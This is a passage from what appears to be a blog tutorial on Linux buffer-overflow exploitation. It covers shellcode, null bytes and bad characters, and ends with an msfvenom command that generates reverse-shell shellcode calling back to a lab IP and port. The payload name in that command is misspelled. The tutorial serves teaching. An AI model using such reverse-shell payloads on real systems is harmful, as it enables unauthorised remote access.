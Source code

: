 You can think of shellcode as a compiled assembly program in the form of raw machine code.

As there are constraints, writing shellcode will be covered in a one of the subsequent blog post. Additionally, it is impossible to input any assembly bytes into memory. For instance, there are certain bytes that could prevent an exploit. Mastering shellcoding also requires the ability to use particular characters while avoiding others.

For the time being, we can generate our own shellcode without knowing how its internals work by using `msfvenom`, which is a part of the _metasploit framework_.

The final step is to respond to the following question.
_How is shellcode introduced into the program?_

As a large amount of data overflows the buffer, it becomes part of the application's memory. Once the buffer is delivered to the application, it will be possible to locate the shellcode in memory, so it can be shipped there.

In addition, there is the issue of bad characters. Since a buffer overflow is typically caused by an insecure copy/read or similar operation, you should understand how such functions handle user input.

If you ever attempt to decompile a function like `strcpy()`, you will notice that it scans the user's string and compares the byte representation of each character to zero (`0x00`).

Once a null byte is encountered, the copying process ceases because the end of the string has been reached.

Additionally, if you examine the C/C++ strings at the byte level, you will notice that each one concludes with a `0x00` byte. You may also encounter the term "null-terminated string", which refers to strings in the C style that end with a zero.

Since we wish to insert a shellcode into the exploit buffer, we must avoid including any null bytes within it. This time, it will be generated automatically by adding a single parameter to the `msfvenom` function.

In addition to the null byte, different functions and programs may also contain other undesirable characters.

Even if this is not the case currently, be vigilant for future attempts to exploit you.

Let's generate shellcode so that it can be inserted into the exploit buffer. We will use a shellcode in reverse. A netcat listener is required to establish a reverse shell connection to it. `-b` specifies the characters that should not be included in the shellcode (bad characters).

```bash
msfvenom -p linux/x86/shell_reserse_tcp lhost=192.168.139.147 lport=4444 -b "\x00" -f python
```

![m](images/linux-exploitation-23-20.png)
